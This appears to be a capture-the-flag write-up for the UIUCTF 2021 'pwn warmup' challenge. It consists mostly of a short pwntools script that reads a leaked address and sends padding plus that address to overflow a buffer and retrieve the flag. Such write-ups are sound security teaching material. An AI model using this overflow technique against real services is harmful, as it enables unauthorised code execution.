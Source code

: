 ```yaml
---
layout: load_md
title: The White Circle | Uiuctf 2021 | pwn warmup Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Uiuctf 2021
parent: uiuctf_2021
category: pwn
challenge: pwn warmup
tags: "pwn, twh"
---
```


<h1 class="heading card-title white-text">Uiuctf 2021</h1>

## pwn warmup
> Solved by : thewhiteh4t


    #!/usr/bin/python3
    
    from pwn import *
    
    host = 'pwn-warmup.chal.uiuc.tf'
    port = 1337
    offset = 20
    addr = 0
    
    junk = b'A' * offset
    
    conn = remote(host, port)
    lines = conn.recvuntil('ad\n').decode().split('\n')
    addr = lines[2].split(' = ')[1].strip()
    addr = int(addr, 16)
    le_num = p64(addr)
    buffer = junk + le_num
    conn.sendline(buffer)
    flag = conn.recvuntil('}').decode()
    print(flag)
    


![](https://i.imgur.com/Usy3A7i.png)


